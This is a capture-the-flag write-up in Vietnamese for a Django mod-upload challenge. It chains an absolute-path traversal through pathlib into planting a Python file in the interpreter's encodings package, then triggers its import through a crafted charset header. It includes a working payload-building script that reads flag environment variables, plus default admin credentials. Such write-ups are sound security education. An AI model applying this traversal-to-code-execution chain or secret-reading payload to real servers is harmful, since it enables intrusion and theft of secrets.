

## Description



Link tải file: [File](https://github.com/HieuPenguinnn/CTF-writeup/blob/main/PTITCTF_Quals-2026/Palworld%20Mod/palworld_mod_src_for_player.zip)

## Phân tích lỗ hổng

Trong `challenge/backend/apps/mods/views.py`, server tạo thư mục lưu file bằng cách nối các giá trị lấy từ request vào `MEDIA_ROOT`:

```python
storage_dir = Path(settings.MEDIA_ROOT) / 'builds' / mod_version / platform_code
```

Sau đó, nội dung ZIP được ghi vào thư mục này:

```python
(storage_dir / filename).write_bytes(data)
```

Ta chọn hai giá trị:

```text
mod_version   = /usr/local/lib
platform.code = python3.11/encodings
```

Trong `pathlib`, một thành phần bắt đầu bằng `/` là đường dẫn tuyệt đối. Vì vậy, phần đứng trước nó bị thay thế và đường dẫn thực tế trở thành:

```text
/usr/local/lib/python3.11/encodings/<codec>.py
```

`python3.11/encodings` có 20 ký tự, vừa với giới hạn độ dài của trường `code` trong model.

Python xử lý tên encoding thông qua `codecs.lookup()`. Khi request chứa một giá trị `charset` chưa được cache, Python sẽ tìm module tương ứng trong package `encodings`. Ví dụ, `charset=xyz` sẽ dẫn tới việc import `encodings.xyz`, code top-level trong `xyz.py` sẽ được thực thi.

Payload có thể đọc biến môi trường chứa flag rồi ghi kết quả vào một file trong `/data/media`.

## Đăng nhập lấy JWT

Login admin: `palforge_admin` - `change-me-admin`



Trong JSON response, lấy trường `access`. Đây là JWT dùng cho các request tiếp theo:



## Tạo platform chứa đường dẫn

Tạo platform với giá trị `code` là `python3.11/encodings`. Giá trị này vừa tạo ra thư mục con cần thiết, vừa không vượt quá giới hạn `max_length` của model. Lưu trường `id` trong response làm `PLATFORM_ID`.

Nếu server trả lỗi unique, gửi `GET /api/platforms/` và lấy record có:

```text
code = python3.11/encodings
```





## Tạo mod và build

Tạo mod với giá trị `mod_version` là `/usr/local/lib`.



Do `/usr/local/lib` là đường dẫn tuyệt đối, `Path()` sẽ loại bỏ phần `/data/media/builds` đứng trước nó. Lưu `id` của mod làm `MOD_ID`.

Nếu đã tồn tại, dùng `GET /api/mods/` và lấy record có:

```text
mod_version = /usr/local/lib
```

Tiếp theo, tạo một build cho mod và platform vừa chuẩn bị. Lưu `id` của build làm `BUILD_ID`.



## Tạo ZIP chứa codec payload

Trên máy local, tạo file `payload.zip`. Trong ví dụ này, tên module là `xyz` và file output là `abc.txt`. Tên module, payload và giá trị `charset` phải khớp nhau:

```bash
python3 - <<'PY'
import zipfile

module_name = "xyz"
result_file = "abc.txt"

module_source = (
    "import os\n"
    "from pathlib import Path\n"
    f"target = Path('/data/media/{result_file}')\n"
    "value = os.getenv('GZCTF_FLAG') or os.getenv('FLAG', 'no-flag')\n"
    "target.write_text(value, encoding='utf-8')\n"
    "\n"
    "def getregentry():\n"
    "    import codecs\n"
    "    return codecs.lookup('utf-8')\n"
)

with zipfile.ZipFile(
    "payload.zip",
    mode="w",
    compression=zipfile.ZIP_DEFLATED,
) as package:
    package.writestr(f"{module_name}.py", module_source)
PY
```

## Upload ZIP 



Vì `storage_dir` đã nằm ngoài `MEDIA_ROOT`, bước hậu xử lý này ném exception. Tuy nhiên, file Python đã được ghi lên server từ trước.

## Trigger import codec

Dùng cùng tên codec trong header `charset`:

```http
Content-Type: text/plain; charset=xyz
```



Giá trị `xyz` phải trùng với tên module `xyz.py`. Khi xử lý request, Python import `encodings.xyz`, chạy code top-level trong payload và tạo file `/data/media/abc.txt`.

## Flag



```text
PTITCTF{w3lc0mE_t0_th3_InfosecPTIT_h0uSe_h3r3_1S_y0uR_e33ecf503366_mil_vnd}
```
